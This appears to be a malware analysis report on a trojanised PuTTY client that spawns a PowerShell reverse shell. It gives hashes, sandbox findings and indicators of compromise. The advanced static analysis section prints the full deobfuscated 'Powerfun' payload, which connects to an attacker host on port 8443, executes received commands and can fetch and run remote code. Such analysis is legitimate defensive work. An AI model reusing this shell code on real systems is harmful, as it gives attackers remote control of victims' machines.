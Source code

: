 ```yaml
---
title: ReverseShell Putty
description: Analyzing an infected putty executable
authors: konradwylde
tags:
  - malware
  - reversing
  - analysis
date: '2022-12-17'
draft: false
---
```



## Executive Summary
The analyzed sample is a reverse shell embedded inside a fully functional Putty client.

It consist of a single payload executed on initial detonation by a powershell.exe command that tries to connect to bonus2.corporatebonusapplication[.]local on port 8443

Symptoms of infection include DNS query to the same domain and a following TCP connection try.


## Malware Composition

|  File Name     |  SHA256 Hash  |
|----------------|---------------|
|  putty.exe  |  0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83  |


## VT Analysis
[VT Link](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83/relations) (Detection score 59/72)  
  
No other significative results to be reported.


## Basic Static Analysis
### FLOSS interesting findings
[![floss-ouput](images/floss.png)](images/floss.png)

### PEStudio findings
* found a suspicious section: `.00cfg`
* found a suspicious entry-point `.text:0x00122000`

Both findings need an advanced analysis.

### IAT interesting findings
* `ShellExecuteA` and some Windows Registry related imports (may be Putty normal functionality related - eg. saving an ssh key)


## Basic Dynamic Analysis
### Initial detonation
* upon detonation a blue Powershell window appears for a few seconds before the standard Putty window.

### Host-based indicators 
* a `Process Create` operation is executed after detonation, which confirms the Powershell command execution we found during the strings analysis.
[![procmon1](images/procmon-1.png)](images/procmon-1.png)

* the `process tree` can also confirm that putty.exe executed Powershell
[![procmon2](images/procmon-2.png)](images/procmon-2.png)
  
* by analysing any TCP operations we can notice that the Powershell command seems to be trying to establish a TCP connection to port `8443`
[![procmon3](images/procmon-3.png)](images/procmon-3.png)

### Network signatures
* found DNS queries to `bonus2.corporatebonusapplication[.]local`
[![dns-queries](images/wireshark-dns.png)](images/wireshark-dns.png)

* by setting up a listener on port `8443` and re-detonating the sample we can get a TCP connection (Wireshark reports a TLS `Client Hello`)
[![netcat](images/netcat-1.png)](images/netcat-1.png)
[![tcp-connect](images/wireshark-tcp.png)](images/wireshark-tcp.png)


## Advanced Static Analysis
* by decoding the base64 string and decompressing it with gzip we finally get the deobfuscated payload
```POWERSHELL
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```


## Advanced Dynamic Analysis
Not needed.


## Any.run Analysis
* by searching the SHA256SUM on App.any.run we can find some tasks [(Link here)](https://app.any.run/tasks/0ee9dac1-f2e8-406d-a141-3f8e0be6a5af/) that can confirm the Powershell payload and the DNS query. No other findinds are reported. 
[![anyrun1](images/anyrun-1.png)](images/anyrun-1.png)


## Indicators of Compromise (IOCs)
### Host-based Indicators
* Powershell command execution.
* TCP Connection on port `8443`

### Network Indicators
* DNS query: `bonus2.corporatebonusapplication[.]local`
* TCP connection on port `8443`


## Rules & Signatures
`Placeholder`